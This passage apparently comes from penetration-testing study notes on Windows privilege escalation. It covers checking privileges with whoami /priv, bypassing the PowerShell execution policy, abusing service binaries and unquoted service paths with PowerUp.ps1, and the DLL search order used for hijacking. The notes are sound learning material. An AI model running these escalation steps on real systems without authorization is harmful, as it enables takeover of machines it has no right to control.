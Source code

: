 Do we have privileges required to reboot?

```powershell
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeSecurityPrivilege           Manage auditing and security log     Disabled
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

Our user has permission. Disabled vs. Enabled is only in the context of the running process. In this case, it means **whoami** has not requested/is not currently using the SeShutdownPrivilege privilege. Thus the privileges listed are what our user does have access to.

An automated tool like **PowerUp.ps1** would have found the mysql service as well, though it would have run into issues if we tried using **Install-ServiceBinary** due to the code of PowerUp.ps1 having issues with a path included in the way our sql example was. **Thus, don't always trust automated tools to cover every exploit.**

Script execution _may_ be blocked, bypass it:

`powershell -ep bypass`

**PowerUp.ps1** can be found here:\
`/usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1`

Using PowerUp.ps1:

```
PS C:\Users\steve> . .\PowerUp.ps1
PS C:\Users\steve> Get-ModifiableServiceFile
PS C:\Users\steve> Install-ServiceBinary -<options>

PS C:\Users\steve> Get-UnquotedService
PS C:\Users\steve> Write-ServiceBinary -Path <unquoted, vulnerable path> -<options>
```

### DLL Hijacking

DLLs are searched in this order on current Windows versions due to _safe DLL search mode_:

1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory.
5. The current directory.
6. The directories that are listed in the PATH environment variable.

DLLs can have an optional _entry point function_ named _DllMain_, which is executed when processes or threads attach the DLL.

